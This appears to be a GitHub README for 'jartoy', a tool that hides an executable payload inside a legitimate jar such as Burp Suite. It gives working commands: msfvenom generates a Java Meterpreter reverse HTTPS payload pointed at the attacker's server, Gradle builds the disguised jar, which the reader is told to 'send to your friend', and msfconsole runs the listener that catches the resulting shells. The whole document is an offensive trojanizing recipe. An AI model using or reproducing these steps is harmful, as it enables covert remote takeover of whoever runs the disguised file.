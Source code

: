 ## jartoy

This tool aims to encapsulate executable jars inside a single jar. 

1) Put burp jar (or another truthful) in
`app/src/main/resources/burp/core.jar`

2) Generate the poison jar 
```bash
# it assumes execution in the project directory
export SERVERADDR=1.2.3.4 # change 
export SERVERPORT=443
msfvenom -p java/meterpreter/reverse_https LHOST=$SERVERADDR LPORT=$SERVERPORT -f raw -o ./app/src/main/resources/net/blue.jar
```

3) Build the jar
```bash
# java 8 can generate a more compatible jar
./gradlew build
```

4) Get it in `./app/build/libs/app.jar` and send to your friend!

5) Run the port listener
```bash
sudo msfconsole 
use multi/handler
set PAYLOAD java/meterpreter/reverse_https
set LHOST 0.0.0.0
set LPORT $SERVERPORT
set ExitOnSession 0
run -jz
```
